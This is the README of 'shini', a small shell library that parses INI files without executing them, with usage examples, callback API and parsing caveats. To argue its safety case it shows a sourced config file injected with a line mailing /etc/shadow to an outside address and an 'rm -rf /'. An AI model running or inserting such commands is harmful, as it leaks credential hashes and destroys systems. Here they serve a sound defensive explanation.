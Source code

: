 shini [![Build Status](https://travis-ci.org/wallyhall/shini.svg?branch=master)](https://travis-ci.org/wallyhall/shini)
=====

A small, minimialist, portable `/bin/sh` routine for reading (and in the upcoming v2.0 - writing) INI files.

## About

### What is `shini`?
As above.  It's a small set of functions written for inclusion in shell scripts, released under the MIT license.

### Why do I need it?
You probably don't.  But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it.  A better solution.

### So `shini` just makes my shell script secure?

Erm, no.  Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions

Best advice, if in doubt:

```
sudo chown root:root shini.sh
sudo chmod 644 shini.sh
```

## Usage

### Show me `shini`!

To see `shini` in action in under 2 minutes:

```
cd "$(mktemp -d -t shini)"
curl https://codeload.github.com/wallyhall/shini/tar.gz/master -o master.tar.gz
tar -xvzf master.tar.gz
chmod +x shini-master/example.sh
cd shini-master/
sh example.sh
```

You should be presented with some output like this:

```
Parsing...

  Section1.name='John Doe'
  Section1.organization='Acme Widgets Inc.'
  Section2.server='10.1.2.3'
  Section2.port='80'
  Section2.file='payroll.dat'
  Section2.this_value_was_in_hex='8739'
  Another_Section.test_key_22='test test test'
  Another_Section.var_with_leading_whitespace='value'
  Another_Section.whitespace_test='lots of whitespace'
  Another_Section.quoted_quotespace='  lots more whitespace  '
  Whitespace_Section.null_value=''

Complete.
```

You've just execute the shipped example/test script (`example.sh`) - which parses an example INI file (`example.ini`) - outputting the content in the format `[section].[key]=[value]`.

## Cool.  Now show me how to include and use it myself!

Inclusion of `shini` in your own project is easy.  You can put the content of `shini.sh` inline with your own code (not recommended, but acceptable.  Make sure you appropriately include the MIT license...), or 'source' it externally - i.e.:

```
. "$(dirname "$0")/shini.sh"
. "/usr/local/bin/shini.sh"
... etc
```

`shini` works by parsing INI files line by line - skipping comments and invoking callback functions on errors and parsed values.

If you don't care about handling parse errors (`shini` will do this for you by default) then you only need define one callback function:

```
__shini_parsed ()
{
  # "$1" - section
  # "$2" - key
  # "$3" - value
}
```

Each argument can should be carefully handled - always double quote (unless you're certain what you're doing).  Never forget you can't guraruntee what is in the INI file being parsed - it could be with evil intent.

When you're ready, invoke the parse function:

```
shini_parse "settings.ini"
```

Bingo.  A full (and simple example) can be found in `example.sh`.

### Can I override the error handling?

Yes.  Just declare any or all of the following functions:

```
__shini_parse_error $LINE_NUM "$LINE"  # Error parsing a specific line
__shini_no_file_passed                 # No filename passed to the shini_parse()
__shini_file_unreadable "$INI_FILE"    # INI file wasn't readable (or wasn't a file)
```

## Known caveats, etc

### Does `shini` follow the official INI format standards?

There are no INI format standards - so yes it does and no it doesn't?

`shini` assumes:

 * Every declaration is on a new line
 * __Sections__ are contained in square brackets, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (no spaces by default) - e.g. `[section]`
 * __Keys__ are followed by an assignment (equal) sign, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (again, no spaces by default) - e.g. `key=`
 * __Values__ follow keys, on the same line.  Anything is valid, except double quotes and semi-colons.  Hexadecimal values (i.e. `0x123`) are parsed and converted to decimal for you.
 * __Comments__ are lines starting with a semi-colon (`;`), such lines are ignored.
 * __Whitespace__ is ignored everywhere - except in between non-whitespace characters in values.  Use double quotes (`"`) to be explicit (e.g. `key=" leading/trailing WS "`)

Due to portability constraints - some of the useful regex power isn't available to `shini`.

This caused some trade-offs - with a lack of efficient control over lazy vs greedy repeats and optional groups etc, comments can only follow key/pair values and empty lines (not sections) - and where it follows values, any whitespace between the value and semi-colon is included as the value.  Explicitly use of double-quotes around the value gets around this issue.

Additionally if your key/value declaration looks like this:

```
key="value" "more text" ; comment
```

... the value reads literally:

```
"value" "more text" ; comment
```

Otherwise, all known "obviously invalid" INI content gets picked up and reported.
